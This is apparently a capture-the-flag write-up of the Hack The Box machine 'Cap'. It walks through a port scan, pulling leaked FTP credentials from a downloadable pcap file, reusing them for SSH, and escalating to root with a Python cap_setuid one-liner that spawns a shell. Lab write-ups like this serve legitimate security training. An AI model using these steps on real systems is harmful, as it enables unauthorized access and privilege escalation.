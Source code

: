 ![](Pasted%20image%2020241201195858.png)

# Enumeration

Performing port scan.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ sudo nmap -sS -T5 -p- -r cap.htb -v | grep open
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
```

Checking the website. This allows us to download the pcap file.

![](Pasted%20image%2020241201202244.png)

We can download multiple pcap files from <http://cap.htb/data/2>, <http://cap.htb/data/3> etc.  

![](Pasted%20image%2020241201202412.png)

However pcap file from <http://cap.htb/data/0> has some sensitive data that I viewed using wireshark.

![](Pasted%20image%2020241201202618.png)

`0.pcap` file contains sensitive data.

![](Pasted%20image%2020241201202824.png)

This FTP username and password can also be used for ssh. Entering to ssh. 

```
┌──[hexadivine@hackthebox]─[~/ctf/tmp]
└──╼ $ ssh nathan@cap.htb
The authenticity of host 'cap.htb (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
nathan@cap.htb's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

nathan@cap:~$ ls
user.txt

nathan@cap:~$ cat user.txt 
228a68da7cb3f43a269f6a9c9c913---
```

# Privilege Escalation

This machine has linux capabilities exploit. 

```
nathan@cap:~$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`getcap` file showing `cap_setuid` set for `/usr/bin/python3.8` which is vulnerable to privilege escalation. ([click here](https://gtfobins.github.io/gtfobins/python/#capabilities))

![](Pasted%20image%2020241201204435.png)

```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# find / -name *root.txt  2>/dev/null
/root/root.txt
# cat /root/root.txt
a7b22b5ea65a484b4c197eb5db5ac---
```

And we are ROOT.
